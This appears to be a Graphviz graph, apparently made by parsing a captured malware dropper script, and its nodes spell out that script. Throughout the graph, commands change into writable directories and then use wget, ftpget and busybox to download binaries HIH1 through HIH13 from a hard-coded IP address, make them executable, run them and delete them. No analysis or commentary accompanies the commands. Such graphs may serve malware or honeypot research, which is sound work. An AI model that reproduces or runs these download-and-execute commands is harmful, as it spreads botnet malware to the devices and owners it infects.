digraph {
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 10 [label="||,"];
10 [label="wget http://185.145.129.246/HIH1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x HIH1 "];
12 -> 48 [label=";,"];
48 [label="./HIH1 "];
48 -> 32 [label=";,"];
32 [label="rm -rf HIH1 "];
32 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 28 [label="||,"];
28 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH1 HIH1 "];
28 -> 30 [label=";,"];
30 [label="chmod +x HIH1 ./HIH1 "];
30 -> 32 [label=";,"];
32 [label="rm -rf HIH1 "];
32 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 44 [label="||,"];
44 [label="/bin/busybox wget http://185.145.129.246/HIH1 "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox chmod +x HIH1 "];
46 -> 48 [label=";,"];
48 [label="./HIH1 "];
48 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf HIH1 "];
66 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 62 [label="||,"];
62 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH1 HIH1 "];
62 -> 64 [label=";,"];
64 [label="/bin/busybox chmod +x HIH1 ./HIH1 "];
64 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf HIH1 "];
66 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 78 [label="||,"];
78 [label="wget http://185.145.129.246/HIH2 "];
78 -> 80 [label=";,"];
80 [label="chmod +x HIH2 "];
80 -> 116 [label=";,"];
116 [label="./HIH2 "];
116 -> 100 [label=";,"];
100 [label="rm -rf HIH2 "];
100 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 96 [label="||,"];
96 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH2 HIH2 "];
96 -> 98 [label=";,"];
98 [label="chmod +x HIH2 ./HIH2 "];
98 -> 100 [label=";,"];
100 [label="rm -rf HIH2 "];
100 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 112 [label="||,"];
112 [label="/bin/busybox wget http://185.145.129.246/HIH2 "];
112 -> 114 [label=";,"];
114 [label="/bin/busybox chmod +x HIH2 "];
114 -> 116 [label=";,"];
116 [label="./HIH2 "];
116 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf HIH2 "];
134 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 130 [label="||,"];
130 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH2 HIH2 "];
130 -> 132 [label=";,"];
132 [label="/bin/busybox chmod +x HIH2 ./HIH2 "];
132 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf HIH2 "];
134 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 146 [label="||,"];
146 [label="wget http://185.145.129.246/HIH3 "];
146 -> 148 [label=";,"];
148 [label="chmod +x HIH3 "];
148 -> 184 [label=";,"];
184 [label="./HIH3 "];
184 -> 168 [label=";,"];
168 [label="rm -rf HIH3 "];
168 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 164 [label="||,"];
164 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH3 HIH3 "];
164 -> 166 [label=";,"];
166 [label="chmod +x HIH3 ./HIH3 "];
166 -> 168 [label=";,"];
168 [label="rm -rf HIH3 "];
168 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 180 [label="||,"];
180 [label="/bin/busybox wget http://185.145.129.246/HIH3 "];
180 -> 182 [label=";,"];
182 [label="/bin/busybox chmod +x HIH3 "];
182 -> 184 [label=";,"];
184 [label="./HIH3 "];
184 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf HIH3 "];
202 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 198 [label="||,"];
198 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH3 HIH3 "];
198 -> 200 [label=";,"];
200 [label="/bin/busybox chmod +x HIH3 ./HIH3 "];
200 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf HIH3 "];
202 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 214 [label="||,"];
214 [label="wget http://185.145.129.246/HIH4 "];
214 -> 216 [label=";,"];
216 [label="chmod +x HIH4 "];
216 -> 252 [label=";,"];
252 [label="./HIH4 "];
252 -> 236 [label=";,"];
236 [label="rm -rf HIH4 "];
236 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 232 [label="||,"];
232 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH4 HIH4 "];
232 -> 234 [label=";,"];
234 [label="chmod +x HIH4 ./HIH4 "];
234 -> 236 [label=";,"];
236 [label="rm -rf HIH4 "];
236 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 248 [label="||,"];
248 [label="/bin/busybox wget http://185.145.129.246/HIH4 "];
248 -> 250 [label=";,"];
250 [label="/bin/busybox chmod +x HIH4 "];
250 -> 252 [label=";,"];
252 [label="./HIH4 "];
252 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf HIH4 "];
270 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 266 [label="||,"];
266 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH4 HIH4 "];
266 -> 268 [label=";,"];
268 [label="/bin/busybox chmod +x HIH4 ./HIH4 "];
268 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf HIH4 "];
270 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 282 [label="||,"];
282 [label="wget http://185.145.129.246/HIH5 "];
282 -> 284 [label=";,"];
284 [label="chmod +x HIH5 "];
284 -> 320 [label=";,"];
320 [label="./HIH5 "];
320 -> 304 [label=";,"];
304 [label="rm -rf HIH5 "];
304 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 300 [label="||,"];
300 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH5 HIH5 "];
300 -> 302 [label=";,"];
302 [label="chmod +x HIH5 ./HIH5 "];
302 -> 304 [label=";,"];
304 [label="rm -rf HIH5 "];
304 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 316 [label="||,"];
316 [label="/bin/busybox wget http://185.145.129.246/HIH5 "];
316 -> 318 [label=";,"];
318 [label="/bin/busybox chmod +x HIH5 "];
318 -> 320 [label=";,"];
320 [label="./HIH5 "];
320 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf HIH5 "];
338 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 334 [label="||,"];
334 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH5 HIH5 "];
334 -> 336 [label=";,"];
336 [label="/bin/busybox chmod +x HIH5 ./HIH5 "];
336 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf HIH5 "];
338 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 350 [label="||,"];
350 [label="wget http://185.145.129.246/HIH6 "];
350 -> 352 [label=";,"];
352 [label="chmod +x HIH6 "];
352 -> 388 [label=";,"];
388 [label="./HIH6 "];
388 -> 372 [label=";,"];
372 [label="rm -rf HIH6 "];
372 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 368 [label="||,"];
368 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH6 HIH6 "];
368 -> 370 [label=";,"];
370 [label="chmod +x HIH6 ./HIH6 "];
370 -> 372 [label=";,"];
372 [label="rm -rf HIH6 "];
372 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 384 [label="||,"];
384 [label="/bin/busybox wget http://185.145.129.246/HIH6 "];
384 -> 386 [label=";,"];
386 [label="/bin/busybox chmod +x HIH6 "];
386 -> 388 [label=";,"];
388 [label="./HIH6 "];
388 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf HIH6 "];
406 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 402 [label="||,"];
402 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH6 HIH6 "];
402 -> 404 [label=";,"];
404 [label="/bin/busybox chmod +x HIH6 ./HIH6 "];
404 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf HIH6 "];
406 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 418 [label="||,"];
418 [label="wget http://185.145.129.246/HIH7 "];
418 -> 420 [label=";,"];
420 [label="chmod +x HIH7 "];
420 -> 456 [label=";,"];
456 [label="./HIH7 "];
456 -> 440 [label=";,"];
440 [label="rm -rf HIH7 "];
440 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 436 [label="||,"];
436 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH7 HIH7 "];
436 -> 438 [label=";,"];
438 [label="chmod +x HIH7 ./HIH7 "];
438 -> 440 [label=";,"];
440 [label="rm -rf HIH7 "];
440 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 452 [label="||,"];
452 [label="/bin/busybox wget http://185.145.129.246/HIH7 "];
452 -> 454 [label=";,"];
454 [label="/bin/busybox chmod +x HIH7 "];
454 -> 456 [label=";,"];
456 [label="./HIH7 "];
456 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf HIH7 "];
474 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 470 [label="||,"];
470 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH7 HIH7 "];
470 -> 472 [label=";,"];
472 [label="/bin/busybox chmod +x HIH7 ./HIH7 "];
472 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf HIH7 "];
474 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 486 [label="||,"];
486 [label="wget http://185.145.129.246/HIH8 "];
486 -> 488 [label=";,"];
488 [label="chmod +x HIH8 "];
488 -> 524 [label=";,"];
524 [label="./HIH8 "];
524 -> 508 [label=";,"];
508 [label="rm -rf HIH8 "];
508 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 504 [label="||,"];
504 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH8 HIH8 "];
504 -> 506 [label=";,"];
506 [label="chmod +x HIH8 ./HIH8 "];
506 -> 508 [label=";,"];
508 [label="rm -rf HIH8 "];
508 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 520 [label="||,"];
520 [label="/bin/busybox wget http://185.145.129.246/HIH8 "];
520 -> 522 [label=";,"];
522 [label="/bin/busybox chmod +x HIH8 "];
522 -> 524 [label=";,"];
524 [label="./HIH8 "];
524 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf HIH8 "];
542 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 538 [label="||,"];
538 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH8 HIH8 "];
538 -> 540 [label=";,"];
540 [label="/bin/busybox chmod +x HIH8 ./HIH8 "];
540 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf HIH8 "];
542 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 554 [label="||,"];
554 [label="wget http://185.145.129.246/HIH9 "];
554 -> 556 [label=";,"];
556 [label="chmod +x HIH9 "];
556 -> 592 [label=";,"];
592 [label="./HIH9 "];
592 -> 576 [label=";,"];
576 [label="rm -rf HIH9 "];
576 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 572 [label="||,"];
572 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH9 HIH9 "];
572 -> 574 [label=";,"];
574 [label="chmod +x HIH9 ./HIH9 "];
574 -> 576 [label=";,"];
576 [label="rm -rf HIH9 "];
576 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 588 [label="||,"];
588 [label="/bin/busybox wget http://185.145.129.246/HIH9 "];
588 -> 590 [label=";,"];
590 [label="/bin/busybox chmod +x HIH9 "];
590 -> 592 [label=";,"];
592 [label="./HIH9 "];
592 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf HIH9 "];
610 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 606 [label="||,"];
606 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH9 HIH9 "];
606 -> 608 [label=";,"];
608 [label="/bin/busybox chmod +x HIH9 ./HIH9 "];
608 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf HIH9 "];
610 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 622 [label="||,"];
622 [label="wget http://185.145.129.246/HIH10 "];
622 -> 624 [label=";,"];
624 [label="chmod +x HIH10 "];
624 -> 660 [label=";,"];
660 [label="./HIH10 "];
660 -> 644 [label=";,"];
644 [label="rm -rf HIH10 "];
644 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 640 [label="||,"];
640 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH10 HIH10 "];
640 -> 642 [label=";,"];
642 [label="chmod +x HIH10 ./HIH10 "];
642 -> 644 [label=";,"];
644 [label="rm -rf HIH10 "];
644 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 656 [label="||,"];
656 [label="/bin/busybox wget http://185.145.129.246/HIH10 "];
656 -> 658 [label=";,"];
658 [label="/bin/busybox chmod +x HIH10 "];
658 -> 660 [label=";,"];
660 [label="./HIH10 "];
660 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf HIH10 "];
678 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 674 [label="||,"];
674 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH10 HIH10 "];
674 -> 676 [label=";,"];
676 [label="/bin/busybox chmod +x HIH10 ./HIH10 "];
676 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf HIH10 "];
678 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 690 [label="||,"];
690 [label="wget http://185.145.129.246/HIH11 "];
690 -> 692 [label=";,"];
692 [label="chmod +x HIH11 "];
692 -> 728 [label=";,"];
728 [label="./HIH11 "];
728 -> 712 [label=";,"];
712 [label="rm -rf HIH11 "];
712 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 708 [label="||,"];
708 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH11 HIH11 "];
708 -> 710 [label=";,"];
710 [label="chmod +x HIH11 ./HIH11 "];
710 -> 712 [label=";,"];
712 [label="rm -rf HIH11 "];
712 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 724 [label="||,"];
724 [label="/bin/busybox wget http://185.145.129.246/HIH11 "];
724 -> 726 [label=";,"];
726 [label="/bin/busybox chmod +x HIH11 "];
726 -> 728 [label=";,"];
728 [label="./HIH11 "];
728 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf HIH11 "];
746 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 742 [label="||,"];
742 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH11 HIH11 "];
742 -> 744 [label=";,"];
744 [label="/bin/busybox chmod +x HIH11 ./HIH11 "];
744 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf HIH11 "];
746 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 758 [label="||,"];
758 [label="wget http://185.145.129.246/HIH12 "];
758 -> 760 [label=";,"];
760 [label="chmod +x HIH12 "];
760 -> 796 [label=";,"];
796 [label="./HIH12 "];
796 -> 780 [label=";,"];
780 [label="rm -rf HIH12 "];
780 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 776 [label="||,"];
776 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH12 HIH12 "];
776 -> 778 [label=";,"];
778 [label="chmod +x HIH12 ./HIH12 "];
778 -> 780 [label=";,"];
780 [label="rm -rf HIH12 "];
780 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 792 [label="||,"];
792 [label="/bin/busybox wget http://185.145.129.246/HIH12 "];
792 -> 794 [label=";,"];
794 [label="/bin/busybox chmod +x HIH12 "];
794 -> 796 [label=";,"];
796 [label="./HIH12 "];
796 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf HIH12 "];
814 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 810 [label="||,"];
810 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH12 HIH12 "];
810 -> 812 [label=";,"];
812 [label="/bin/busybox chmod +x HIH12 ./HIH12 "];
812 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf HIH12 "];
814 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 826 [label="||,"];
826 [label="wget http://185.145.129.246/HIH13 "];
826 -> 828 [label=";,"];
828 [label="chmod +x HIH13 "];
828 -> 864 [label=";,"];
864 [label="./HIH13 "];
864 -> 848 [label=";,"];
848 [label="rm -rf HIH13 "];
848 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 844 [label="||,"];
844 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH13 HIH13 "];
844 -> 846 [label=";,"];
846 [label="chmod +x HIH13 ./HIH13 "];
846 -> 848 [label=";,"];
